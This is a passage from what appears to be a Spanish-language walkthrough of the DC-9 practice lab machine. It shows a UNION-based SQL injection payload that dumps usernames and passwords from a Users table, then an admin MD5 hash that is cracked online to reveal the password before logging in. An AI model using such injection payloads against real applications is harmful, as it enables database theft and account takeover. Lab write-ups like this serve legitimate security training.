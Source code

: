 ```sql
Mary' union select null,CONCAT(username,':',password),null,null,null,null from Users-- -
```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%208.png)

Obtenemos usuario admin y un hash md5. Con el hash paso a crackearlo en una web online

[https://crackstation.net/](https://crackstation.net/)

```sql
admin:856f5de590ef37314e7c3bdf6f8a66dc
```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%209.png)

Y obtengo la contraseña: **transorbital1**

## Explotación 

Inicio sesion

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%2010.png)
